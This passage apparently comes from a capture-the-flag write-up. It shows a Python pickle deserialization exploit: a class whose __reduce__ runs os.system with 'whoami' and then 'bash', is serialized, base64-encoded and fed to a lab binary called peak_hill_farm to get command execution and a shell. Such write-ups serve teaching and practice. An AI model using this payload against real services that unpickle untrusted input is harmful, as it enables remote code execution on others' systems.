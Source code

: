 ```python
import pickle
import os

class myPickle(object):
	def __reduce__(self):
		return (os.system, ('whoami', ))

pickle_result = pickle.dumps(myPickle())

with open("pickle_result", "wb") as file:
	file.write(pickle_result)
```

This script first serializes / pickles an object of the **myPickle** class. What's important to note is that the myPickle class has its **\__reduce__()** directive overwritten to run the `whoami` command. Hence, when a Python program attempts to deserialize a myPickle object, it will first refer to the \__reduce__() directive to see if there is any instructions that need to be executed while deserializing the data. It will then run whatever code that we have placed in the directive, allowing us to obtain remote code execution. In this case, the `whoami` command will be run.

 With the serialized object saved to a file, let's go ahead and base64-encode the data so that we can pass it to the peak_hill_farm binary:

<img style="float: left;" src="screenshots/screenshot26.png">

<img style="float: left;" src="screenshots/screenshot27.png">

Nice, It works! Now we just have to replace `whoami` with `bash` like so. 

```python
class myPickle(object):
	def __reduce__(self):
		return (os.system, ('bash', ))
```

Similarly, we base64-encode the result and pass it it to the peak_hill_farm binary.

<img style="float: left;" src="screenshots/screenshot28.png">

<img style="float: left;" src="screenshots/screenshot29.png">
